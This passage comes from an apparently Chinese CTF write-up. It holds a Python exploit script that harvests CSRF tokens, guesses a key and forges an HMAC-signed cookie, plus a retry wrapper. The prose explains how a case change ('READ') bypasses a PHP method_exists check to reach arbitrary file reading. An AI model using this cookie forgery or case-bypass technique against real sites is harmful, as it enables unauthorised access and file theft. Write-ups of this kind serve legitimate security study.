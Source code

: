     h1 = hmac.new(k,h2).hexdigest()
    return {'userinfo':base64.b64encode(h1+h2)} 

r0 = session.get(url)
token0 = re.findall(re_csrf_token,r0.text)[-1]
d0 = parse(token0,str_list)
payload0 = {'submit':'go', 'CSRF_TOKEN':token0, 'act':action, 'key':'1234567'}
session.post(url,data=payload0)
r1 = session.get(url)
token1 = re.findall(re_csrf_token,r1.text)[-1]
d1 = parse(token1,str_list)
pre =  [0,0,0,0,0,0]+d0+d1
secret,key = guess(pre,str_list,action)
cookie = create_cookie(secret)
payload1 = {'submit':'go', 'CSRF_TOKEN':token1, 'act':action, 'method':method, 'key':key}
r2 = session.post(url,data=payload1,headers=header,cookies=cookie)  

if 'Permission deny!!' not in r2.text:
    print '[+]Done!'
    print r2.text
{% endhighlight %}

相应的get-2.py也简单如下：

{% highlight python %}
#!/usr/bin/env python
#coding=utf-8   

import sys
import subprocess   

while 1:
    output = subprocess.check_output(['python',sys.argv[1],sys.argv[2],sys.argv[3]])
    if output:
        print output
        break
{% endhighlight %}

输出如下：

{% highlight bash %}
$ python get-2.py new-2.py fg_safebox read
[+]Done!
"Error: Admin permission denied!!"
{% endhighlight %}

在简单尝试之后"user"只能调用$box对象的view、alist和view方法，唯独不能使用read方法，如果说一定要用read方法，这里估计也是无法绕过去了。不急，继续往下看看有没有思路，在(4)调用相应方法中，其会和PHP对象有关联，而就我知道的和搜索到的，大多都是PHP对象注入问题，而这里也没有魔术方法和序列化之类的东西，猜测也就不是这个考察点。那么关注的重心就移到了(3)判断对象方法是否存在，在使用method_exists的时候会不会出现什么问题呢，看[源码](https://github.com/php/php-src/blob/f8faffe37edd74e0314f74436825bfcf5be78a49/Zend/zend_builtin_functions.c)之：

![][5]

唉呀妈呀，其中一句`lcname = zend_string_tolower(method_name);`，就猜测这里是先将方法名转成小写再进行判断和利用的。我们这里就可以大小写绕过，使"user"调用的方法为`READ`，进入(4)中的函数调用，加上filename的POST就可以进行任意文件读取啦～


[1]: https://wx2.sinaimg.cn/large/ee2fecafly1g3qpzjx8q9j20rh06wmxa.jpg
[2]: https://wx1.sinaimg.cn/large/ee2fecafly1g3qpzkbvkoj20mu0etjry.jpg
[3]: https://wx2.sinaimg.cn/large/ee2fecafly1g3qpzkq869j20h603taae.jpg
[4]: https://wx2.sinaimg.cn/large/ee2fecafly1g3qpzlckcvj20l30gc40g.jpg
[5]: https://wx4.sinaimg.cn/large/ee2fecafly1g3qpzm24iej20n30c3dhe.jpg